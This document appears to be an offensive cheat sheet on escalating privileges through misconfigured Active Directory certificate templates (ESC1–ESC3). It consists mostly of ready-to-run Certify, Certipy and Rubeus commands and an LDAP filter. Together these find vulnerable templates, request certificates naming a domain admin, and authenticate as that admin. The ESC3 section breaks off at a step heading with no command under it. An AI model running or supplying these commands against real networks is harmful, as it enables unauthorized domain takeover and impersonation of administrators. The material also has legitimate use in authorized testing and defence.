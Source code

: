 ### **Domain Escalation: Vulnerabilities and Misconfigurations Misconfigured Certificate Templates – ESC1, ESC2, ESC3**

Misconfigurations in certificate templates can enable attackers to escalate their privileges within the domain. These misconfigurations include granting low-privileged users enrollment rights, disabling manager approval, not requiring authorized signatures, and having overly permissive certificate template security descriptors. Additionally, misconfigured certificate templates that allow unprivileged users to specify a Subject Alternative Name (SAN) in their certificate requests can lead to unauthorized domain authentication.

#### **ESC1**

**1) Find vulnerable certificate templates**

```javascript
PS C:\temp> .\Certify.exe find /vulnerable
root@kali:~# certipy find -u <domain_user> -p <domain_user_password> -dc-ip <domain_controller_ip>
```



**2) Abuse this vulnerability to impersonate a domain admin :**

```javascript
PS C:\temp> .\Certify.exe request /ca:<ca> /template:<vulnerable_template> /altname:<domain_admin>
root@kali:~# certipy req '<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>' -alt '<domain_admin>'
```

**3) Authenticate using Rubeus or Certipy:**

```javascript
PS C:\temp> .\Rubeus.exe asktgt /user:<domain_admin> /certificate:<domain_admin.pfx> /password:<domain_admin_password> /ptt
root@kali:~# certipy auth -pfx '<domain_admin.pfx>' -username '<domain_admin>' -domain '<domain_fqdn>' -dc-ip <domain_controller_ip>
```

#### **ESC2**

**Find template and request a certificate specifying the /altname as a domain admin like in ESC1**

```javascript
PS C:\temp> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=<domain_name>,DC=local'
```

#### **ESC3**

**1) Request an enrollment agent certificate**

```javascript
root@kali:~# certipy req '<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>'
```

**2) Enrollment agent certificate to issue a certificate request on behalf of another user to a template that allow for domain authentication**
